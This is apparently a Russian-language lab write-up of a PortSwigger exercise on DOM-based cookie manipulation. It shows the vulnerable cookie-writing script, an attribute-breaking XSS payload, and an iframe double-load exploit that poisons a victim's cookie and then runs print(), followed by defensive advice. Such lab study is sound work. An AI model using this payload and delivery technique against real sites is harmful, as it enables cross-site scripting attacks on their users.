


##### манипулирование файлами cookie на основе DOM
лаба https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation

используя перенаправление жертвы на эксплойт сервер внедрить файл cookie, который вызовет XSS на другой странице, и вызовет `print()`

-----

по url `GET /product?productId=1 HTTP/2`
на  стр (`Last viewed product`) постов есть в html коде такая функция

```html
                       <script>
 document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
                        </script>
                        <div class="is-linkback">
                 <a href="/">Return to list</a>
```

эта функция берет куку `lastViewedProduct` и добавляет в нее новую инфу + window.location

вот что с защитой здесь SameSite=None + флаг Secure

флаг Secure - значит - что такая кука будет отправляться только по зашифрованному соединению HTTPS

> `SameSite=None` — это значение атрибута для cookie, которое буквально означает "никаких ограничений по сайтам

то есть - находясь на этой стр - данные уезжают в куку!

и есть я смогу поменять ее так, что в куку едет скрипт - то победа


-----

пробую
```http
GET /product?productId=12&<script>print()</script> HTTP/2
Host: 0a0b00830447cc4d8046214800dc00b6.web-security-academy.net
Cookie: session=Ejl0DhCWNJVgWcLAhouWzUVHP7tgbKU2; lastViewedProduct=https://0a0b00830447cc4d8046214800dc00b6.web-security-academy.net/product?productId=1
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
...
..
.
```

и этот скрипт отразился в ответе на странице!!



нужно просто выйти из тега `<a`
вот от сюда нужно вырваться
```html
<a href='https://0a0b00830447cc4d8046214800dc00b6.web-security-academy.net/product?productId=12&<script>print()</script>'>
                           
пробую

&''><script>print()</script><a' 

```


СРАБОТАЛО!!! принт сработал!!



вот урл
```
https://0a0b00830447cc4d8046214800dc00b6.web-security-academy.net/product?productId=12&%3Cscript%3Eprint()%3C/script%3E
```

-------

теперь нужно сделать так, чтобы урл открылся при перехода на мой эксплойт сервер

иду вот сюда  https://csrf-poc-generator.vercel.app 
закидываю туда мой запрос с пейлоадом

получаю
```html
<html>
  <body>
    <form action="https://0a0b00830447cc4d8046214800dc00b6.web-security-academy.net/product?productId=12&''><script>print()</script><a'" method="GET">
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>
```
и на своем сайте в качестве ответа сервера ставлю этот код, что выше

и происходит куета какая-то!

если я просто перехожу по ссылке  `"https://0a0b00830447cc4d8046214800dc00b6.web-security-academy.net/product?productId=12&''><script>print()</script><a'"`
то у меня открывает пост 12 + срабатывает принт!!

и также если нажать теперь на кнопку - назад " [Return to list] - то тоже срабатывает xss с принтом!!!

и даже если нажать на [Last viewed product] - то тоже происходит срабатывание принта!

но если перехожу по ссылке со своего сервера - то ответ 400 "Missing parameter: productId"


видимо проблема в том, что в куку сохранился этот вредоносный скрипт!

и поэтому не работают мои попытки это повторить через эксплойт сервер!


---

```html
<script>
    location.href = "https://0a0b00830447cc4d8046214800dc00b6.web-security-academy.net/product?productId=12&''><script>print()</script><a'"
</script>
```
не срабатывает

----

пробую с двойным перенаправлением, чтобы сперва установить вредоносную куку в браузер, и повторным запросом, выполнить скрипт!!!
```html
<iframe src="https://0a0b00830447cc4d8046214800dc00b6.web-security-academy.net/product?productId=12&''><script>print()</script><a'" onload="if(!window.x)this.src='https://0a0b00830447cc4d8046214800dc00b6.web-security-academy.net/';window.x=1;">
```

сработало!!!!!!! лаба решена!!!

-----


##### выводы

DOM-based манипуляция cookie с XSS

на странице товара скрипт записывал в куку `lastViewedProduct` значение `window.location` без какой-либо фильтрации

подобрал пэйлоад `&''><script>print()</script><a'`, который закрывал атрибут `href` и внедрял тег `<script>`


---

Проблема с эксплойт-сервером возникла из-за того, что простое перенаправление через `location.href` или форму с GET не гарантировало установку куки перед загрузкой главной страницы. ХОТЯ ВРУЧНУЮ пейлоад с принтом работал, но автоматизировать это оказалось сложнее

Решением стало использование `iframe` с двойной загрузкой

1) Сначала `iframe`загружал страницу товара с вредоносным URL, что записывало отравленную куку `lastViewedProduct` в браузер жертвы
2) Затем срабатывал `onload`, который перенаправлял этот же `iframe` на главную страницу. Главная страница читала куку и вставляла её содержимое в HTML, что приводило к выполнению `print()`

##### как защититься

 никогда не использовать пользовательский ввод для формирования cookie без экранирования
 
кодировать спецсимволы перед записью в cookie
  
на стороне сервера при чтении cookie также экранировать данные перед вставкой в HTML. В-четвертых, использовать `Content Security Policy` для ограничения выполнения скриптов

не полагаться на клиентские cookie для критических данных и всегда валидировать их на сервере


---